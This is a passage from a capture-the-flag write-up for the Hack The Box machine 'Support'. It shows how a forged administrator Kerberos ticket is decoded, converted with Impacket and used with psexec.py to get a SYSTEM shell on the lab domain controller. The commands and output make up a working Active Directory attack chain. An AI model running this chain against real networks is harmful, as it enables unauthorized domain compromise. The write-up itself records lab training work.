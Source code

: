 ```bash
[*] Saving ticket in administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

- This command results a ticket under the name `administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache`

## Use The Ticket
### Ticket from Rubeus
- For the `Rubeus` result, we can grab the last ticket and copy it back to our attacker machine, saving it as ticket.kirbi.b64, making sure to remove all spaces. Then using `base64` decode it into ticket.kirbi.

```bash
┌──(kali㉿kali)-[~/htb/machines/support/tickets]
└─$ base64 -d ticket.kirbi.b64 > ticket.kirbi 
```

- Now, we need to convert it to a format that Impact can use:

```bash
┌──(kali㉿kali)-[~/htb/machines/support/tickets]
└─$ impacket-ticketConverter ticket.kirbi ticket.ccache
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done
``` 

### Ticket from getST.py
Using `getST` we already have `administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache` ticket ready to use.
- Export the ticket to export `KRB5CCNAME` as the follow:

```bash
╭─kali@kali ~/htb/machines/support/krb/tt 
╰─$ export KRB5CCNAME=administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```


- Then We can use this to get a shell using `psexec.py`:


```bash
╭─kali@kali ~/htb/machines/support/krb/tt 
╰─$ /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass support.htb/administrator@dc.support.htb -dc-ip 10.10.11.174                                                                          130 ↵
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file oROGuPYt.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service ZRTb on dc.support.htb.....
[*] Starting service ZRTb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd \users
C:\Users> cd Administrator

C:\Users\Administrator> whoami & hostname
nt authority\system
dc

C:\Users\Administrator> 
```
